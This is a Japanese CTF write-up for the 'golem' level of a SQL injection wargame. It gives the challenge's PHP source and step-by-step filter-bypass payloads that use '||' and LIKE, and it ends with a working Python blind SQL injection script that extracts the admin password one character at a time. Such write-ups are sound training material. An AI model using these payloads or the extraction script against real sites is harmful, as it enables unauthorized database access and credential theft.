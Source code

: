 # golem

## answer

- [orc](../src/golem.py)

## problem

```
query : select id from prob_golem where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=1
```

とすると

```
query : select id from prob_vampire where id='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
```

これイコールも禁止されている気がするんだけど、

```
?pw=1' || '1' = '1
```

このイコールも"Hehe"になってしまうからダメ。

```
?pw=1'||'1
```

これを試してみる。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=1%27||%271

query : select id from prob_golem where id='guest' and pw='1'||'1'

Hello guest
```

とりあえずHello guestは出せた。

このあと、adminのpwを抜いてきたい。

やっぱりBlindSQLiかなと思ってはいるが、「=」がフィルターされていることを考えないといけない。

このような場合に、like句を活用できるらしい。

like句の使い方はこんな感じらしい。

```
SELECT * FROM employee WHERE name LIKE 'taro'
```

以上のように使うとlike句はイコールとして使うことができる、、、

```
?pw=' || length(pw) like 8 && id like 'admin
```

をurlエンコードしてから貼り付ける。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=%27%20%7C%7C%20length(pw)%20like%208%20%26%26%20id%20like%20%27admin

query : select id from prob_golem where id='guest' and pw='' || length(pw) like 8 && id like 'admin'

Hello admin
```

長さを変えながら試してたら、8でHello adminがでた。BlindSQLiで間違いなさそう。

また、「substr(」がフィルターされていることも考えないといけない。

MYSQLなら「substring」で代替できるかもしれない。

これでちょっと調べてみたい。

```
?pw=' || substring(pw, 1, 1) < 'A' && id like 'admin

?pw=' || substring(pw, 1, 1) > 'A' && id like 'admin
```

上のみHello adminを返す。

```
query : select id from prob_golem where id='guest' and pw='' || substring(pw, 1, 1) < 'A' && id like 'admin'

Hello admin
```

以上をふまえてコードを書いてみる。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='cgq355ag1vlid052btnp68fpo7')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '\' || SUBSTRING(pw,{count},1) like \'{char}\' && id like \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
    print(password)

if __name__ == "__main__":
    main()
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [文字列関数 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html)